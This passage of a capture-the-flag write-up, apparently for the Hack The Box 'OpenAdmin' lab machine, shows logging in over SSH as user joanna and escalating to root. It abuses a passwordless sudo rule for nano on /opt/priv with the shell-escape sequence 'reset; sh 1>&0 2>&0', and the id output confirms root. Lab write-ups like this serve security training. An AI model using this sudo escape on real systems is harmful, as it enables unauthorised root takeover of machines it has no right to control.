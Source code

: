 SSH in as joana now:

```bash
HTB ssh -i key joanna@10.10.10.171               
Enter passphrase for key 'key': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan 27 21:06:27 UTC 2024

  System load:  0.0               Processes:             185
  Usage of /:   31.8% of 7.81GB   Users logged in:       1
  Memory usage: 15%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$
```

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
joanna@openadmin:~$ sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

I run the nano command on /opt/priv and from there I can escape into a shell

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
openadmin
```

best,
gerbsec